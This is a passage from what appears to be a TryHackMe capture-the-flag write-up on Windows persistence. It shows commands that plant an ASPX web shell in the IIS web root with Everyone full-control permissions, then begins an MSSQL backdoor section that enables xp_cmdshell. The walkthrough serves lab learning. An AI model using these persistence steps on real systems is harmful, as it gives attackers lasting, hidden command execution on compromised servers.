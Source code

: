 ```PowerShell
-a----         7/7/2023   9:00 PM          20216 shell.aspx
```
6. `icacls <ASPX.NET WEB SHELL FILE PATH> /grant Everyone:F` from our compromised Windows machine to grant all the users in the system full access and control to the ASP.NET web shell file that we just downloaded from our attack machine
```PowerShell
PS C:\Users\Administrator> icacls shell.aspx /grant Everyone:F
processed file: shell.aspx
Successfully processed 1 files; Failed processing 0 files
```
7. `move <FILE> <DESTINATION PATH>` from our compromised Windows machine to move the <ASPX.NET WEB SHELL FILE2> web shell file to the **C:\inetpub\wwwroot** directory, which is the default directory where web content is stored for the IIS (Internet Information Services) web server, which is a web server software that was developed by Microsoft for Windows that provides the infrastructure and services necessary to host and manage websites, web applications, and other web services
```PowerShell
PS C:\Users\Administrator>move shell.aspx C:\inetpub\wwwroot\
        1 file(s) moved.
```
8. `explorer.exe "http://<TARGET IP>/shell.aspx"` from our compromised Windows machine to launch the Windows Explorer web browser and redirect it to our ASP.NET web shell, which brought us to a web shell that used to run commands on the system 
```PowerShell
PS C:\Users\Administrator> explorer.exe http://10.10.219.169/shell.aspx
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/ASPX.NET%20Web%20Shell%20Open.png)

9. `C:\flags\flag16.exe` from our compromised Windows machine's web shell to run the **flag16.exe**, which ended up displaying this task's flag onto our web shell terminal 

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/ASPX.NET%20Web%20Shell%20Flag.png)


#
## Using MSSQL as a Backdoor

1. Started this room's machine
2. Search for Microsoft's **Microsoft SQL Server Management Studio 18**, launch it, and then press connect to start using it

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Search.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Launch%20pt2.png)

3. Once the MSSQL Serve Manager has successfully been launched, execute the following four queries:

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Launch%20pt.3.png)

The first query we'll execute is to enable the **xp_cmdshell** stored procedure, which is a procedure that's provided and disabled by default in any MSSQL installation, and allows us to run commands directly in the system's console
```SQL
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO
```
